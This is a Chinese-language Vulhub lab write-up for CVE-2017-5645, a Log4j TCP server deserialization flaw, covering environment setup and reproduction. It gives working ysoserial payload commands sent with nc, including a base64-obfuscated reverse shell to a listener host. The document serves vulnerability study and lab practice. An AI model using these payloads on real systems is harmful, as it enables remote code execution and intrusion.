

# Apache Log4j Server 反序列化命令执行漏洞 CVE-2017-5645

## 漏洞描述

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 环境搭建

Vulhub执行如下命令启动漏洞环境

```
docker-compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker-compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：



执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | nc your-ip 4712
```


